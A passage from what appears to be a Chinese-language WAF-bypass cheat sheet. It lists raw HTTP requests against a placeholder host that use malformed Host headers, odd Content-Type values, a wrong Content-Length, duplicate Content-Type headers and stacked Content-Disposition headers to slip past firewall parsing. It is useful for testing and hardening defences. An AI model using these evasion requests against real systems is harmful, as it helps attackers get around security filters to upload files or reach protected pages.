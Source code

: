             ```
            GET /login.php HTTP/1.1
            Host: favoritewaf.com:12345
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            GET /login.php HTTP/1.1
            Host: favoritewaf.com ignored.text
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **Content-Type 其他类型**

            ```
            POST /login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            Content-Type: application/another-text/+++x-www-form-urlencoded
            
            hello=world
            ```

            **HTTP request 错误的 Content-Length（长度小于指定的）**

            ```
            GET /login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            Content-Length: 1
            
            AAAAAAAA
            ```

            **双 Content-Type**

            ```
            Content-Type: multipart/form-data; boundary=ZZZ
            Content-Type: multipart/form-data; boundary=AAA
            ```

            **Content-Disposition**

            在multipart协议中，一个文件上传块存在多个Content-Disposition，将以最后一个Content-Disposition的filename值作为上传的文件名。许多WAF解析到第一个Content-Disposition就认为协议解析完毕，获得上传的文件名，从而导致被绕过。

            ```
            GET /login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            Accept-Language: en-us
            Accept-Encoding: gzip, deflate
            Connection: Keep-Alive
            Content-Type: multipart/form-data; boundary=--------1218108630
            
            ----------1218108630
            Content-Disposition: form-data; name="hello"
            
            world
            ----------1218108630--
            Content-Disposition: form-data; name="hello"
            Content-Disposition: form-data; name="hello
            Content-Disposition: form-data; name="hello"world"
            Content-Disposition: attachment; name="hello"
            Content-Type: multipart/form-data; boundary=x
            